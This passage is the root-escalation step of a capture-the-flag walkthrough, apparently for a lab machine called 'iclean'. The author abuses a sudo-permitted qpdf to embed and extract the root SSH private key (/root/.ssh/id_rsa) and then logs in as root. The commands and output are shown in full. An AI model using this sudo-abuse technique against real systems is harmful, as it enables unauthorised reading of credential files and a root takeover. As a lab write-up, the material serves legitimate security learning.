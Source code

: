 I was allowed to run [QPDF](https://qpdf.readthedocs.io/en/stable/) as any user on the machine. This utility allows interacting with PDF files. I looked for ways to append the content of files to a PDF. Since I could run it as root, this would allow me to read any file on the server.

I found that I could [add attachments to a PDF](https://qpdf.readthedocs.io/en/stable/cli.html#embedded-files-attachments). I added the root SSH private key to a PDF I found on the server.

```bash
consuela@iclean:~$ find / -name '*.pdf' 2>/dev/null
/usr/share/doc/shared-mime-info/shared-mime-info-spec.pdf

consuela@iclean:~$ cp /usr/share/doc/shared-mime-info/shared-mime-info-spec.pdf original.pdf

consuela@iclean:~$ sudo qpdf original.pdf --add-attachment /root/.ssh/id_rsa --mimetype=text/plain -- withKey.pdf
```

The attachments were not displayed in my PDF reader, but I could also extract them with QPDF.

```bash
consuela@iclean:~$ qpdf --list-attachments withKey.pdf
id_rsa -> 653,0

consuela@iclean:~$ qpdf --show-attachment=id_rsa withKey.pdf
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```

I saved the SSH key to my machine and used it to reconnect as root.

```bash
$ cat root_id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----

$ chmod 600 root_id_rsa

$ ssh -i root_id_rsa root@target
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sun Jun 23 02:18:37 PM UTC 2024

Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@iclean:~# ls
root.txt  scripts

root@iclean:~# cat root.txt
```